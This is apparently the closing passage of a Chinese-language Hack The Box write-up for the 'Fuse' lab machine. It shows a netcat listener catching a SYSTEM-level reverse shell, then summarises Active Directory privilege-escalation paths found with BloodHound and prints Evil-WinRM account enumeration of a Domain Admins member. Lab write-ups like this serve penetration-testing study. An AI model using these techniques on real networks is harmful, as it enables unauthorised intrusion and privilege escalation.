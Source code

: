 ```

拿到提权的反弹shell

```
┌──(root💀kali)-[~/htb/Fuse]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.193] 50179
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\svc-print\Documents>whoami
whoami
nt authority\system

```


# 总结
这台foothold感觉有点ctf的味道，提权部分看其他人的walkthrough好多卡在源代码编译环节上，网上找到了相关的资源就直接拿来用了。

AD部分只是出现在用户枚举，后来提权的时候用bloodhound看本账户到domain Admin的路径，本账户输入IT Account组，IT Account可以远程登录fuse.fabricorp.local电脑，这台电脑存有admin的session，理论上好像也可以提权，但是我没有验证。

另外另一个账号sthompson原来是Domain Admins组成员,理论上提权到这个账号也可以成功提权，不过没找到这个账号的更多信息。
```
*Evil-WinRM* PS C:\Users\svc-print\Documents> net user sthompson
User name                    sthompson
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/30/2020 3:30:57 PM
Password expires             Never
Password changeable          5/31/2020 3:30:57 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/30/2020 3:31:56 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *IT_Accounts
                             *Domain Admins
The command completed successfully.
